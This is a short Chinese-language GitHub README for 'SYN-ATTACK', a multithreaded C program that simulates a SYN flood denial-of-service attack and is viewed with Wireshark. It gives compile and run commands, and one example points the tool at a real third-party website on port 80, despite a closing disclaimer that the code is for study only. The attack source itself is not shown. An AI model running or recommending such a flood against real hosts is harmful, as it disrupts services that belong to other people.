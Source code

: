 SYN-ATTACK
==========
作者: Xuebi

邮箱: 2685043624@qq.com

Created Time: 2020.01.07

说明：
----
1.本程序采用多线程，模拟syn洪水进攻。
2.采用wireshack查看数据包

使用:
-----
```
$ gcc -o syn_attack syn_attack.c -lpthread
$ sudo ./syn_attack <IPaddress> <port>
```
例如
```
$ sudo ./syn_attack 0.0.0.0 80
$ sudo ./syn_attack www.pornhub.com 80
```


注意：
-----
本代码仅供交流学习，不得进行非法用途。
